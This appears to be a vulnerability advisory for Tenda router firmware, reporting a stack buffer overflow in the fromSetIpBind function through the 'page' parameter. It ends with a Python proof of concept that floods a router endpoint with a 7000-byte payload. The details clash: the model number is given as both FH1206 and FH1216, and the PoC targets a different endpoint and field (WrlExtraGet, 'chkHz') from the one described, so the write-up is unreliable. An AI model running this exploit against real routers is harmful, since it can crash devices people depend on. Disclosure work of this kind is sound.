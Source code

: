 

# fromSetIpBind

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **fromSetIpBind** function. The function receives the `page` parameter from a POST request. ` sprintf(v8, "arp_bind.asp?page=%s", v2); ` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v8` array, thereby triggering this security vulnerability.


![image](https://github.com/user-attachments/assets/c5882cbd-1911-4357-9c7c-733c660609e3)

## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WrlExtraGet"
payload = b"a"*7000

data = {"chkHz": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image](https://github.com/user-attachments/assets/95ed87bd-a5ab-414d-95e9-fcc9e6b0176a)
